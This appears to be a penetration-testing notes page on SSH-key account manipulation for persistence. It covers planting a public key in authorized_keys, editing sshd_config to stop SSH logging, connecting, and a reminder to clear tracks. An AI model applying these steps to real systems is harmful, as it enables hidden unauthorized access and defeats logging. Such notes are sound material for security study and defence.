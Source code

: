 --- ---

<h2>General</h2>

Account manipulation using SSH keys is a way for an attacker to gain access to a system without using a password. SSH (Secure Shell) keys are used to authenticate a user to a remote system, allowing them to log in without entering a password. Instead of a password, the user presents a private key file, which is then verified against a public key that is stored on the remote system. If the keys match, the user is authenticated and granted access to the system.

An attacker who has gained access to a user's private SSH key can use it to log in to the system without knowing the user's password. This can be done by copying the private key to the attacker's own system and using it to authenticate to the remote system. If the attacker is able to do this, they will be able to log in to the system and perform actions as if they were the legitimate user. This can allow the attacker to gain unauthorized access to sensitive data or to perform actions that would not normally be allowed.

---

<h2>Command</h2>

Modify /etc/ssh/sshd_config (Target Machine)
```
# Comment Elements
	# LogLevel INFO    ---> Comment this not not store the logs of the SSH
	# PasswordAuthentication yes   ---> Because we use a SSH Key to login

# Uncomment Elements
	PubkeyAuthentication yes       ---> Allow login with SSH Keys
```

Generating SSH Keys (Attacking Machine)
```
# Generate SSH Keys
ssh-keygen               ---> Generate SSH key pair

# Copy the SSH Keys
ls -al                   ---> List folder in home directory to see if .ssh folder is there
mkdir .ssh               ---> Create .ssh folder if needed
nano authorized_keys     ---> Create file for keys, and paste your id_rsa.pub value
SAVE

chmod 700 /home/USER/.ssh                    ---> Give the right permission to folder
chmod 600 /gome/USER/.ssh/authorized_keys    ---> Give the right permission to file
```

SSH Connection (Attacking Machine)
```
ssh USER@IP
```



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===